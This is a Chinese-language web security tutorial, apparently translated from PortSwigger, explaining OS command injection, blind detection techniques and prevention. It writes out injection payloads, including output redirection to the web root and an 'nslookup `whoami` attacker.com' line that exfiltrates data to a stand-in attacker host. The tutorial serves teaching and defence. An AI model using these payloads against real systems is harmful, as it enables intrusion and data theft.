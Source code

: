 # 常见web漏洞——系统命令注入

在本文中，我将讲述**什么是系统命令注入**以及**如何检测和利用系统注入漏洞**。并且会罗列一些针对不同操作系统比较有用的攻击命令和技术。最后则将讲述**如何阻止系统命令注入攻击**。

![](https://mmbiz.qpic.cn/mmbiz_png/XsgEbl9EdmkAyXqo4kqFyxdBrxv1LbeUJaMdN930DkW7nXbgOm9GqpziaUrIhm8LmS0oAtBaS8CJ20ex8tEWTGA/0?wx_fmt=png)

# 什么是系统命令注入？
**操作系统命令注入**(通常也称为**脚本注入**(**Shell Injection**))是一种web安全漏洞。攻击者可以利用其在运行应用的服务器执行任意操作系统命令。典型的后果是**完全破坏应用程序及其所有数据**。通常，攻击者还能利用这种漏洞**破坏托管该应用基础设施**的其它部分，并**利用其它服务对该被攻击服务的信任关系将攻击转移到组织内的其他系统**。
# 执行任意命令
考虑一个购物应用程序，该应用程序使用户可以查看特定商店中某商品是否有库存。 该信息可通过如下URL访问到：

	https://insecure-website.com/stockStatus?productID=381&storeID=29


为了提供库存信息，通常的做法可能都是去查询数据库之类的存储系统。但是不巧，该服务整体架构比较老旧，为了拿到库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用`productID`和`storeID`作为参数调用`shell`命令来实现的：

	stockreport.pl 381 29


这个脚本会针对给定`productID`和`storeID`来查询库存信息并返回给用户。

而由于该服务并没有进行任何的命令注入的防护，所以攻击者可以通过提交下面这样的查询字符串来执行任意命令：

	& echo aiwefwlguh &


如果这个参数是作为`productID`传入的，那么最终执行的命令会是：

	stockreport.pl & echo aiwefwlguh & 29

这个`echo`命令只会导致提供的字符串回显到输出，这在用来测试某些类型的注入非常有用。`& `字符串是`shell`命令分隔符，所以最终被执行的是三段独立的指令。所以，最终输出给用户的将可能会是：

	Error - productID was not provided
	aiwefwlguh
	29: command not found


这三行输出可以证明：

- 最初的 `stockreport.pl` 并没有按照自己预期的参数执行，所以它输出了错误的结果
- 被注入的 `echo` 指令被执行了，并且提供给它的参数回显出来了。
- 参数`29`被当做命令去解析，所以导致了一个错误。

通常，将附加命令分隔符`＆`放置在注入命令之后是很有用的，因为这会将注入命令与注入点后面的内容分开。 这减少了注入的命令被阻止执行的可能性。

> 注意：以上只是比较简单的例子，很多系统命令注入漏洞并不会直接把结果返回给攻击者，后面会讲。
一些有用的命令

当你已经确定出某个应用存在命令注入漏洞后，通常可以执行一些初始命令来获取有关被你攻击的系统的信息。 以下是在Linux和Windows平台上有用的一些命令：


|  说明   | Linux  | Windows  |
|  ----  | ----  | ----  |
| 当前用户信息  | whoami | whoami |
| 操作系统信息  | uname -a | ver |
| 网络配置  | ifconfig | ipconfig /all |
| 网络连接  | netstat -an | netstat -an |
| 运行的进程  | ps -ef | tasklist |


# 系统命令盲注攻击
命令注入中的很多case都是**盲注漏洞**。什么意思呢？就是说虽然命令确实被注入了，但是它并不会像上面的例子那样直接将结果返回回来。盲注漏洞仍然可以被利用，只是需要不同的技术。

假设一个Web站点运行用户给他们提交反馈。用户输入他们的邮箱以及反馈内容。服务端应用给管理员生成一封包含反馈内容的邮件。这个应用是通过调用`mail`实现这个功能的，例如：

	mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com


假设 `mail`指令的内容并不会直接通过HTTP响应返回给提交者，那么使用 `echo` 来检测是否可以注入的话就不太可行了。这种情况下，可以使用其它的技术来检查和利用漏洞。

### 使用时间延时检测命令盲注
可以通过尝试注入一个会导致响应时延的命令并对比注入前后响应的时间来确认注入的命令是否被执行。`ping` 指令非常适合干这个，因为它允许你指定发送ICMP包，而这会消耗时间，比如：

	& ping -c 10 127.0.0.1 &

这个指令会导致应用会`ping` 一下`127.0.0.1`这个回环地址，持续10s。

### 通过重定向输出利用命令盲注
另外一种方式是，你可以将命令的输出重定向到应用根目录下的某个文件，这样你可以直接在浏览器获取这个文件。例如，如果应用程序的静态资源存放在位于服务目录`/var/www/static`下，那么你可以通过如下指令将命令输出写入这个目录下的文件：

	& whoami > /var/www/static/whoami.txt &

` >`会将`whoami`指令的输出写入`/var/www/static/whoami.txt`这个文件中，那这样你就可以直接通过浏览器URL https://vulnerable-website.com/whoami.txt 访问到了。

### 使用out-of-band(OAST)网络技术利用命令盲注
另外一种方式就是，你可以通过注入一个能够与你自己控制的服务进行交互的命令来验证。比如：

	& nslookup attacker.com &


这个注入使用了`nslookup`命令来查询指定域名的DNS。攻击者可以监视是否发生了指定的查找，从而检测到命令成功注入与否。

这种注入方式还提供了一种从注入的命令中提取输出的简便方法：

	& nslookup `whoami` attacker.com &

这个注入命令会导致被攻击服务携带信息向攻击者控制的服务发起DNS查询。

# 系统命令注入常见方式
有很多种`shell`元字符可以用来实现系统命令注入。有许多字符用作命令分隔符，使命令可以链接在一起。 以下命令分隔符在Windows和基于Unix的系统上均可使用：

- &
- &&
- |
- ||

下面这几种只能运行在基于Unix的系统：

- ;
- 换行 (`0x0a` or `\n`)

在基于Unix的系统上，您还可以使用**反引号**或**美元字符**在原始命令中内嵌执行注入命令：

- ` some injected command `
- $( some injected command )

**注意**，不同的`shell`元字符的行为具有细微差异，这些行为可能会影响它们是否在某些情况下起作用，以及它们是在有回显输出的场景起作用还是只能通过盲注的方式起作用。

有时，您控制的输入会出现在原始命令的引号中。 在这种情况下，需要先使用**引号**终止上下文（使用单引号`'`或双引号`''`），然后再使用适当的`shell`元字符来插入新命令。

# 如何阻止系统命令注入攻击？
目前为止，最为有效的阻止命令注入的手段就是**不以系统命令的方式执行外部输入**。不执行就不会有风险，有很多种可以替代通过执行命令完成工作的手段。

但是如果你这个不可避免的非得用执行命令的方式来完成某个工作，唯一的方式就是对输入执行强校验，一些校验case如下：

- 使用白名单对指令校验
- 校验输入是否是数字
- 校验输入是否是基本的字符，没有空格或者其他字符。

切勿尝试通过转义`shell`元字符来清理输入。 实际上，这太容易出错，容易被熟练的攻击者绕开。

# 参考
https://portswigger.net/web-security/os-command-injection